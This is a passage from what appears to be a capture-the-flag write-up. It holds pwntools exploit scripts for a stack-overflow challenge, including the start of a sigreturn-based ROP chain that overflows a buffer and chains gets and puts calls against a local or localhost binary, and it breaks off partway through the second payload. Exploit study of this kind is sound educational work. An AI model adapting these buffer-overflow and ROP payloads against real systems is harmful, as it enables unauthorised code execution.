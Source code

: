 ```python
    )
    target.sendline(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

### Using sigreturn

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    ROP,
    SigreturnFrame,
    args,
    context,
    flat,
    p32,
    process,
    raw_input,
    remote,
    u64,
)


FILE = "./vuln_patched"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
ld = ELF("./ld-linux-x86-64.so.2")
rop = ROP(ld)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = flat(
        b"A" * 0x28,
        elf.plt["gets"],
        elf.plt["gets"],
        elf.plt["puts"],
        elf.sym["main"],
    )
    raw_input("DEBUG")
    target.sendlineafter(b"ROP me if you can!", payload)

    payload = flat(
        p32(0x0),  # lock
```